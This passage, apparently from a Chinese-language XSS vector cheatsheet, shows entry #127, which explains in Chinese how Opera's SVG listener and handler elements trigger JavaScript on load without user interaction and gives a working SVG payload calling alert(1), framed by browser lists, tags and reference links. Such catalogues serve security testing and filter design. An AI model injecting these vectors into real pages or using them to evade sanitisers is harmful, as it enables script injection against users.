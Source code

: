 *   internet explorer 9.0
*   internet explorer latest

*   firefox 3.x
*   firefox latest

*   svg
*   html
*   chameleon
*   xslt
*   embedded
*   xss

*   [http://www.w3.org/Graphics/SVG/](http://www.w3.org/Graphics/SVG/)
*   [http://www.w3.org/TR/xslt](http://www.w3.org/TR/xslt)
*   [http://www.dpawson.co.uk/xsl/sect2/onefile.html](http://www.dpawson.co.uk/xsl/sect2/onefile.html)

reporter：.mario

### Opera中通过listener执行JavaScript代码[#127](#127)[test](test/#127)

示例向量，与#94相关，展示了listener标签和handler标签的组合是如何被利用，从SVG元素中加载事件去触发JavaScript，使其执行。到目前为止，只有Opera支持XML事件和相关元素。不需要用户交互即可执行JavaScript语句。


```
<svg xmlns="http://www.w3.org/2000/svg" id="x"> <listener event="load" handler="#y" xmlns="http://www.w3.org/2001/xml-events" observer="x"/> <handler id="y">alert(1)</handler> </svg>
```

*   opera 9.0
*   opera 12.0

*   svg
*   opera
*   xml
*   events
*   listener
*   handler
*   xss

*   [http://www.opera.com/docs/specs/presto29/svg/elements/](http://www.opera.com/docs/specs/presto29/svg/elements/)
*   [http://www.w3.org/TR/SVGMobile12/script.html#ListenerElement](http://www.w3.org/TR/SVGMobile12/script.html#ListenerElement)
*   [http://www.w3.org/TR/2010/NOTE-xml-events2-20101216/Overview.html#section-eventhandlers](http://www.w3.org/TR/2010/NOTE-xml-events2-20101216/Overview.html#section-eventhandlers)
*   [#85](#85)
*   [#94](#94)
*   [#104](#104)

reporter：.mario

### Firefox 解析SVG中被编码的HTML实体[#128](#128)[test](test/#128)
